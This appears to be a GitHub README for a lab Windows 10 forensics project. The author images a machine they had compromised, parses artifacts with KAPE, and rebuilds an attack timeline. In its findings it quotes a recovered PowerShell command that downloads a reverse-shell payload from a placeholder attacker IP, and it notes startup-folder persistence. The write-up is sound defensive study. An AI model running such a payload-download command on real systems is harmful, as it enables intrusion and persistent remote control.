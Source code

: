 # WINDOWS FORENSICS

## OBJECTIVE:

The goal of this phase was to perform a forensic investigation on a compromised Windows 10 system. This included collecting targeted artifacts, analyzing system activity to trace attacker behavior, and constructing a clear timeline of the intrusion.

## INTRODUCTION:

This project is a follow-up to my earlier Windows 10 red team simulation, where I compromised a lab machine using reverse shells, set up persistence, and carried out post-exploitation activities.

In this second phase, I approached the same machine from a forensic analyst’s perspective, capturing disk images, extracting key artifacts, and analyzing them with dedicated tools to identify traces of the attacker’s activity — including payload files, suspicious commands, and network indicators pointing to the attacker's system.

## TOOLS USED:
- FTK Imager
- Kroll Artifact Parser and Extractor (KAPE)
- Timeline Explorer

---

## WALKTHROUGH:

## ARTIFACT ACQUISITION
I started by using FTK Imager to collect both targeted and broad artifacts:
| Artifact                | Path                                                            |
| ----------------------- | --------------------------------------------------------------- |
| Master File Table (MFT) | `C:\$MFT`                                                       |
| Event logs              | `C:\Windows\System32\winevt\Logs`                               |
| NTUSER registry hive    | `C:\Users\<username>\NTUSER.DAT`                                |
| SYSTEM registry hive    | `C:\Windows\System32\config\SYSTEM`                             |
| SOFTWARE registry hive  | `C:\Windows\System32\config\SOFTWARE`                           |
| User’s directory        | `C:\Users\<username>` (where payloads & artifacts were dropped) |
I used FTK Imager to create a disk image `.001` consolidating these artifacts, ensuring proper evidence integrity.

---

## EVIDENCE TRANSFER
I securely copied the `.001` disk image from the compromised Windows system to my dedicated forensics workstation.

---

## EXAMINING THE DISK IMAGE
On my forensics machine:

- I loaded the `.001` image back into FTK Imager.
- Used FTK Imager to mount and extract the contents of the disk image, effectively recreating the file system for analysis.

---

## PARSING THE ARTIFACTS
Next, I launched KAPE (Kroll Artifact Parser and Extractor), pointed it to the extracted image contents, and configured it:
- Selected key targets (like registry hives, event logs, MFT).
- Selected modules to parse this data into structured outputs.
- Set a destination folder for processed results.
Then, I executed the task.
KAPE processed the evidence and produced multiple Excel sheets (CSV/XLSX) containing parsed data.

---

## MANUAL ANALYSIS
- I loaded these sheets into Timeline Explorer to get a powerful pivot table-style view.
- This helped me filter and sort by timestamps, path names, process names, and more.

---

## FINDINGS — TRACING THE ATTACKER
Through this analysis, I found clear artifacts of the attack:
- Persistence:
  - Located the reverse shell payload copied to the Windows startup folder.
    Example:
    ```
    C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\payload.pyzw
    ```
  - Verified timestamps (Created, Modified, Accessed) showing exactly when persistence was established.
- Temp staging folder:
  - Found the `Temp` directory created by the attacker under `C:\Users\Public\Documents\Temp`.
- Command line evidence in Event Logs:
  - Found PowerShell and cmd commands in the Security/PowerShell logs.
  - Notably recovered the command that downloaded the payload:
    ```
    powershell -Command "Invoke-WebRequest -Uri http://<attacker_IP>/powershell_reverse.pyzw -OutFile C:\Users\Public\Documents\powershell_reverse.pyzw"
    ```
  - This revealed the attacker’s IP address: `<attacker_IP>`.
- Other footprints:
  - Evidence of the WinPEAS enumeration binary being executed.
  - Logs showing browser launches and other activity matching the attacker’s session.

---

## BUILDING A TIMELINE
Based on the parsed timestamps from the MFT, registry, and event logs, I reconstructed:
- When the initial reverse shell was executed.
- When the persistence payload was copied to the startup folder.
- When WinPEAS was run to look for privilege escalation.
This provided a clear chronological picture of the attack.

---

## SUMMARY
- Through this phase, I was able to effectively:
- Collect and preserve targeted evidence using FTK Imager.
- Parse and analyze large volumes of data with KAPE and Timeline Explorer.
- Correlate multiple sources to identify malicious activity, persistence mechanisms, attacker's IP, and a probable timeline of compromise.

---

> ⚠️ Disclaimer
> This project was performed strictly for educational and ethical purposes in a controlled lab environment.
> Always ensure you have explicit authorization before performing any form of forensic analysis or incident response on systems.
